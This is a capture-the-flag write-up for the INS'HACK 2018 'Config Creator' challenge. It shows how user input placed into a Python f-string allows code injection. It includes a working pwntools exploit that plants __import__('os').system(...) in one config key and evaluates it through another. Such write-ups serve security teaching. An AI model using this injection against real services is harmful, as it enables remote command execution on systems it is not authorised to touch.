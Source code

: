 # Config Creator
##### INS'HACK 2018 (https://ctf.insecurity-insa.fr)
```
I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

Care to have a look?

nc config-creator.ctf.insecurity-insa.fr 10000
```

This pwn challenge did not provide the binary, so "educated guessing" was used to poke around for possible vulnerabilities. The service presents the following menu:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit
```

`1. Register a new config entry` allows us to create custom key:value pairs. Fuzzing these and then using `4. Show my config` showed errors when the service failed to parse input:

```
config:
f-string: empty expression not allowed (<string>, line 6)
An error occurred, sorry
```

Researching `f-string` revealed that it was likely a new Python format string format (introduced in version 3.6). This fact can be confirmed by registering a valid config entry using `3. Show my template`:

```
template:
f"""
configuration [
    a = {a};
]
"""
```

Looks like a Python f-string. So this pwn challenge is about Python injection. According to the docs, `{}` evalues input before supply it to the f-string. The vulnerability can be confirmed by creating a key `eval('print(1234)')` with `{}` as value:

```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? eval('print(1234)')
Config value? {}

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
1234
eval() arg 1 must be a string, bytes or code object
An error occurred, sorry
```

The program gives an error, but `1234` is printed back, which means it executed the code injected into the key. Again, according to the docs and as can be confirmed, using code with special characters and spaces will not work, because of the way f-string data is parsed. So before evaluating such code, it must first be declared as a value in one key, and then evaluated in the second key. The following exploit does just that:

```
from pwn import *
import time 

def xrust(data):
    global p
    print p.recvuntil('? ')
    p.sendline(data)

p = remote('config-creator.ctf.insecurity-insa.fr', 10000)

xrust('1') #register
xrust('a')
xrust('__import__("os").system("cat flag.txt")')

xrust('1') #register
xrust('eval(a)')
xrust('{}')

xrust('4') #config
print p.recvline() # INSA{dont_get_me_wrong_i_love_python36}
```
